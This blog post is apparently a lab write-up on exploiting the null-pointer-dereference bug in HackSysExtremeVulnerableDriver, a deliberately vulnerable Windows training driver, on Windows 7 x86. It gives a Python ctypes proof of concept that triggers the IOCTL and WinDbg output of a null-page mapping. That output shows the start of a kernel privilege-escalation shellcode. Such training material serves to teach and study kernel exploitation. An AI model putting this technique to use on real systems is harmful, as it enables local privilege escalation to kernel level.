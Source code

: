 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver NullPointerDereference
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

This challenge is very similar with the last one.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202B, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Execute the POC, we would get this info.
```
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x877D5210
[+] UserValue: 0xFFFFFFFF
[+] NullPointerDereference: 0x877D5210
[+] Freeing NullPointerDereference Object
[+] Pool Tag: 'kcaH'
[+] Pool Chunk: 0x877D5210
[+] Triggering Null Pointer Dereference
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
```
It triggers an exception, while it goes on working well.


## 0x002 Exploit it!

Look at this, if a UserValue not equal to 0xBAD0B0B0, the ptr would be set up to NULL, it will call Addr 0x4.
![](/assets/img/exploit/2018-08-05-hacksys-extreme-vulnerable-driver-nullpointerdereference/0x001.png)

Like the challenge "Pool Overflow", I map the Null page and overwrite Addr 0x4 with the address shellcode

Set a breakpoint at TriggerNullPointerDereference method
```
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x87865C20
[+] UserValue: 0xFFFFFFFF
[+] NullPointerDereference: 0x87865C20
Breakpoint 1 hit
HEVD!TriggerNullPointerDereference+0xae:
8f5d1c8e 394508          cmp     dword ptr [ebp+8],eax
kd> dd 0x0
00000000  00000000 01c50000 00000000 00000000
00000010  00000000 00000000 00000000 00000000
00000020  68a2d4d0 fffffffe 00000000 00000001
00000030  68a06948 0000000d 68a0ab1c 01aab728
00000040  01aae020 00000000 00000000 00000000
00000050  00000000 00000000 00000000 00000000
00000060  00000000 00000000 00000000 00000000
00000070  00000000 00000000 00000000 00000000
kd> u 01c50000
01c50000 90              nop
01c50001 90              nop
01c50002 90              nop
01c50003 90              nop
01c50004 60              pushad
01c50005 64a124010000    mov     eax,dword ptr fs:[00000124h]
01c5000b 8b4050          mov     eax,dword ptr [eax+50h]
01c5000e 89c1            mov     ecx,eax
```

pwn~
![](/assets/img/exploit/2018-08-05-hacksys-extreme-vulnerable-driver-nullpointerdereference/0x002.png)